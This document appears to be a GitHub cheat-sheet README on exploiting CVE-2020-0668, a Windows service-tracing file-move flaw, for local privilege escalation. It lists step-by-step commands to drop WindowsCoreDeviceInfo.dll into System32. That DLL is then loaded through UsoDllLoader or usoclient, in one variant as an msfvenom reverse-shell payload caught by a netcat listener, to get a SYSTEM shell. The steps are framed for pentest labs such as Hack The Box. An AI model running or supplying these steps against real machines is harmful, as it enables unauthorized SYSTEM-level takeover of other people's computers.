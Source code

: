 # CVE-2020-0668 - Microsoft Windows Service Tracing Arbitrary File Move Local Privilege Escalation Vulnerability

Use CVE-2020-0668 to perform an arbitrary privileged file move operation.

Use [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) (Windows >= 1903) OR [diaghub](https://github.com/xct/diaghub) (Windows < 1903) for privilege escalation.

## Enumeration

```bash
systeminfo
```

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v BuildLabEx
```

## Windows >= 1903

### Usage 1 - UsoDllLoader

> Abuse `Update Session Orchestrator` service with `UsoDllLoader.exe` if not updates pending.

1. Transfer files to target
2. Verify dll file is not present yet - `dir C:\Windows\System32\WindowsCoreDeviceInfo.dll`
3. Execute PS script that abuses of the vuln - `./CVE-2020-0668.ps1`
4. Dll file should be present now - `dir C:\Windows\System32\WindowsCoreDeviceInfo.dll`
5. Use the dll loader - `UsoDllLoader.exe`
6. If it works you should have a shell as `NT AUTHORITY\SYSTEM`

### Usage 2 - UsoClient

> Abuse `Update Session Orchestrator` service with `usoclient` if not updates pending.

1. Create `WindowsCoreDeviceInfo.dll` with reverse shell payload - [msfvenom](https://github.com/rafamarrara/CTFs/blob/main/cheatsheets/toolMsfvenom.md)
2. Transfer files to target (use the revshell dll from previous step)
3. Verify dll file is not present yet - `dir C:\Windows\System32\WindowsCoreDeviceInfo.dll`
4. Execute PS script that abuses of the vuln - `./CVE-2020-0668.ps1`
5. Dll file should be present now - `dir C:\Windows\System32\WindowsCoreDeviceInfo.dll`
6. Start a listener at attack host - `rlwrap -cAr nc -nlvp 4455`
7. Use the command `usoclient StartInteractiveScan` - Note that you won't get any feedback from the command.
8. After a few seconds you should have a shell connecting back to your listener as `NT AUTHORITY\SYSTEM`

### Usage 3 - Mozilla Maintenance Service

> `Mozilla Maintenance Service` service runs in the context of `SYSTEM` and is **startable** by unprivileged users.
> Non-system protected binary for this service: `C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

1. TBD
2. `net start MozillaMaintenance`

## Windows < 1903

> TBD

## Extra

Quick powershell script to list available updates to help abusing `Update Session Orchestrator`. If nothing is returned, then no updates are available. There are two options for $r listed below, you can see how they differ.

```powershell
$u = New-Object -ComObject Microsoft.Update.Session
$u.ClientApplicationID = 'MSDN Sample Script'
$s = $u.CreateUpdateSearcher()
#$r = $s.Search("IsInstalled=0 and Type='Software' and IsHidden=0")
$r = $s.Search('IsInstalled=0')
$r.updates|select -ExpandProperty Title
```

## Links

- [itm4n blog - CVE-2020-0668](https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/)
- [Microsoft - CVE-2020-0668](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-0668)
- [GitHub - UsoDllLoader](https://github.com/itm4n/UsoDllLoader)
- [GitHub - diaghub](https://github.com/xct/diaghub)
- [GitHub - RedCursorSecurityConsulting - CVE-2020-0668](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668)
- [HTB Remote (Windows >= 1903) - Good lab machine](https://app.hackthebox.com/machines/234)
